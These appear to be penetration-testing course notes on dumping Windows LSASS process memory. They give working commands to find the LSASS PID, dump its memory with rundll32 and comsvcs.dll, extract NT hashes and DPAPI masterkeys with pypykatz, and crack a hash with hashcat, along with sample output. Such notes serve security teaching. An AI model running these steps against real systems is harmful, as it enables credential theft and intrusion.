


 * [Local Security Authority Subsystem Service](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service) (`LSASS`)
* Collection of many modules and has access to all authentication processes that can be found in `%SystemRoot%\System32\Lsass.exe`
* This service is responsible for the local system security policy, user authentication, and sending security audit logs to the `Event log`
* It is the vault for Windows-based operating systems
* Each interactive logon session creates a separate instance of the Winlogon service 
* The [Graphical Identification and Authentication](https://docs.microsoft.com/en-us/windows/win32/secauthn/gina) (`GINA`) architecture is loaded into the process area used by Winlogon, receives and processes the credentials, and invokes the authentication interfaces via the [LSALogonUser](https://docs.microsoft.com/en-us/windows/win32/api/ntsecapi/nf-ntsecapi-lsalogonuser) function
* Upon initial logon, LSASS will:
	-   Cache credentials locally in memory
	-   Create [access tokens](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens)
	-   Enforce security policies
	-   Write to Windows [security log](https://docs.microsoft.com/en-us/windows/win32/eventlog/event-logging-security)



* The `Credential Storage` section of this module, LSASS is a critical service that plays a central role in credential management and the authentication processes in all Windows operating systems


## Dumping LSASS Process Memory
* Would be wise to first create a copy of the contents of LSASS process memory via the generation of a memory dump
* Creating a dump file lets us extract credentials offline using our attack host
* Keep in mind conducting attacks offline gives us more flexibility in the speed of our attack and requires less time spent on the target system

#### Task Manager Method


* Saved in `C:\Users\loggedonusersdirectory\AppData\Local\Temp`

#### Rundll32.exe & Comsvcs.dll Method
* Faster than the Task Manager method and more flexible because we may gain a shell session on a Windows host with only access to the command line
* It is important to note that modern anti-virus tools recognize this method as malicious activity
* Before issuing the command to create the dump file, we must determine what process ID (`PID`) is assigned to `lsass.exe`

#### Finding LSASS PID in cmd

```powershell
tasklist /svc

Image Name                     PID Services
========================= ======== ============================================
System Idle Process              0 N/A
System                           4 N/A
Registry                        96 N/A
smss.exe                       344 N/A
csrss.exe                      432 N/A
wininit.exe                    508 N/A
csrss.exe                      520 N/A
winlogon.exe                   580 N/A
services.exe                   652 N/A
lsass.exe                      672 KeyIso, SamSs, VaultSvc
svchost.exe                    776 PlugPlay
svchost.exe                    804 BrokerInfrastructure, DcomLaunch, Power,
                                   SystemEventsBroker
fontdrvhost.exe                812 N/A
```

#### Finding LSASS PID in PowerShell

```powershell
PS C:\Windows\system32> Get-Process lsass

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1260      21     4948      15396       2.56    672   0 lsass
```

#### Creating lsass.dmp using PowerShell

```powershell
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

* With this command, we are running `rundll32.exe` to call an exported function of `comsvcs.dll` which also calls the MiniDumpWriteDump (`MiniDump`) function to dump the LSASS process memory to a specified directory (`C:\lsass.dmp`)

## Using Pypykatz to Extract Credentials
* Once we have the dump file on our attack host, we can use a powerful tool called [pypykatz](https://github.com/skelsec/pypykatz) to attempt to extract credentials from the .dmp file. Pypykatz is an implementation of Mimikatz written entirely in Python

#### Running Pypykatz
* We use `lsa` in the command because LSASS is a subsystem of `local security authority`, then we specify the data source as a `minidump` file, proceeded by the path to the dump file (`/home/peter/Documents/lsass.dmp`) stored on our attack host

```sh
pypykatz lsa minidump /home/peter/Documents/lsass.dmp 

INFO:root:Parsing file /home/peter/Documents/lsass.dmp
FILE: ======== /home/peter/Documents/lsass.dmp =======
== LogonSession ==
authentication_id 1354633 (14ab89)
session_id 2
username bob
domainname DESKTOP-33E7O54
logon_server WIN-6T0C3J2V6HP
logon_time 2021-12-14T18:14:25.514306+00:00
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354633
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA
	== WDIGEST [14ab89]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
	== Kerberos ==
		Username: bob
		Domain: DESKTOP-33E7O54
	== WDIGEST [14ab89]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
	== DPAPI [14ab89]==
		luid 1354633
		key_guid 3e1d1091-b792-45df-ab8e-c66af044d69b
		masterkey e8bc2faf77e7bd1891c0e49f0dea9d447a491107ef5b25b9929071f68db5b0d55bf05df5a474d9bd94d98be4b4ddb690e6d8307a86be6f81be0d554f195fba92
		sha1_masterkey 52e758b6120389898f7fae553ac8172b43221605

== LogonSession ==
authentication_id 1354581 (14ab55)
session_id 2
username bob
domainname DESKTOP-33E7O54
logon_server WIN-6T0C3J2V6HP
logon_time 2021-12-14T18:14:25.514306+00:00
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354581
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA
	== WDIGEST [14ab55]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
	== Kerberos ==
		Username: bob
		Domain: DESKTOP-33E7O54
	== WDIGEST [14ab55]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)

== LogonSession ==
authentication_id 1343859 (148173)
session_id 2
username DWM-2
domainname Window Manager
logon_server 
logon_time 2021-12-14T18:14:25.248681+00:00
sid S-1-5-90-0-2
luid 1343859
	== WDIGEST [148173]==
		username WIN-6T0C3J2V6HP$
		domainname WORKGROUP
		password None
		password (hex)
	== WDIGEST [148173]==
		username WIN-6T0C3J2V6HP$
		domainname WORKGROUP
		password None
		password (hex)
```

#### MSV

```sh
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354633
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA
```

* [MSV](https://docs.microsoft.com/en-us/windows/win32/secauthn/msv1-0-authentication-package) is an authentication package in Windows that LSA calls on to validate logon attempts against the SAM database
* Pypykatz extracted the `SID`, `Username`, `Domain`, and even the `NT` & `SHA1` password hashes associated with the bob user account's logon session stored in LSASS process memory

#### WDIGEST

```sh
== WDIGEST [14ab89]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
```

* `WDIGEST` older authentication protocol enabled by default in `Windows XP` - `Windows 8` and `Windows Server 2003` - `Windows Server 2012`
* LSASS caches credentials used by WDIGEST in clear-text
* Modern Windows operating systems have WDIGEST disabled by default

#### Kerberos
* [Kerberos](https://web.mit.edu/kerberos/#what_is) is a network authentication protocol used by Active Directory in Windows Domain environments
* Domain user accounts are granted tickets upon authentication with Active Directory
* Ticket is used to allow the user to access shared resources on the network that they have been granted access to without needing to type their credentials each time
* LSASS `caches passwords`, `ekeys`, `tickets`, and `pins` associated with Kerberos
* Possible to extract these from LSASS process memory and use them to access other systems joined to the same domain

#### DPAPI

```sh
== DPAPI [14ab89]==
		luid 1354633
		key_guid 3e1d1091-b792-45df-ab8e-c66af044d69b
		masterkey e8bc2faf77e7bd1891c0e49f0dea9d447a491107ef5b25b9929071f68db5b0d55bf05df5a474d9bd94d98be4b4ddb690e6d8307a86be6f81be0d554f195fba92
		sha1_masterkey 52e758b6120389898f7fae553ac8172b43221605
```

* The Data Protection Application Programming Interface or [DPAPI](https://docs.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection) is a set of APIs in Windows operating systems used to encrypt and decrypt DPAPI data blobs on a per-user basis for Windows OS features and various third-party applications
* Example of applications that use DPAPI



* Mimikatz and Pypykatz can extract the DPAPI `masterkey` for the logged-on user whose data is present in LSASS process memory
* Masterkey can then be used to decrypt the secrets associated with each of the applications using DPAPI and result in the capturing of credentials for various accounts

#### Cracking the NT Hash with Hashcat

```sh
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt

64f12cddaa88057e06a81b54e73b949b:Password1
```